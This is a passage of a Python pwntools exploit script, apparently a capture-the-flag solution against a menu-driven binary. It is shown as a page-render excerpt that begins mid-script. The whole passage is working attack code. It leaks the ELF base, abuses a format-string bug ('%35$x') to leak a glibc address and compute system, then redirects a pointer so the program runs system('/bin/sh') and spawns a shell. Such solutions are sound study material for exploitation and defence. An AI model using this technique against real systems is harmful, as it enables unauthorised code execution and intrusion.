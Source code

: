 ```python

addr_small_str = int(tmp, 10)
baseaddr_elf = addr_small_str - offset_small_str
addr_printf_plt = baseaddr_elf + offset_printf_plt

log.info(">>>>> Stage 1, ELF base address leak")
log.info("addr_small_str:     %x\n" % addr_small_str)
log.info("baseaddr_elf:       %x\n" % baseaddr_elf)
log.info("addr_printf_plt:    %x\n" % addr_printf_plt)

p.recvuntil("Enter Choice: ")
p.sendline("3")

#
# use printf to leak info of libc
#

p.recvuntil("Enter Choice: ")
p.sendline("1")
# p.recvuntil("Input string to store: ")
p.sendline("%35$x\n")
p.recvuntil("Enter Choice: ")
p.sendline("3")
p.recvuntil("Enter Choice: ")
p.sendline("2")
p.recvuntil("Input number to store: ")
p.sendline(str(addr_printf_plt))
p.recvuntil("Enter Choice: ")
p.sendline("5")
p.recvuntil("String index to print: ")
p.sendline("1")
tmp = p.recvline()
p.recvuntil("Enter Choice: ")
p.sendline("4")

addr_main_ret_libc = int(tmp, 16)

log.info(">>>>> Stage 2, Glibc base address leak")
log.info("addr_main_ret_libc: %x\n" % addr_main_ret_libc)

baseaddr_libc = addr_main_ret_libc - offset_main_ret_libc
addr_system_libc = baseaddr_libc + offset_system_libc

log.info("baseaddr_libc:      %x\n" % baseaddr_libc)
log.info("addr_system_libc:   %x\n" % addr_system_libc)

#
# invoke system("/bin/sh")
#

p.recvuntil("Enter Choice: ")
p.sendline("1")
p.sendline("/bin/sh")
p.recvuntil("Enter Choice: ")
p.sendline("3")
p.recvuntil("Enter Choice: ")
p.sendline("2")
p.recvuntil("Input number to store: ")
p.sendline(str(addr_system_libc))
p.recvuntil("Enter Choice: ")
p.sendline("5")
p.recvuntil("String index to print: ")
p.sendline("1")
```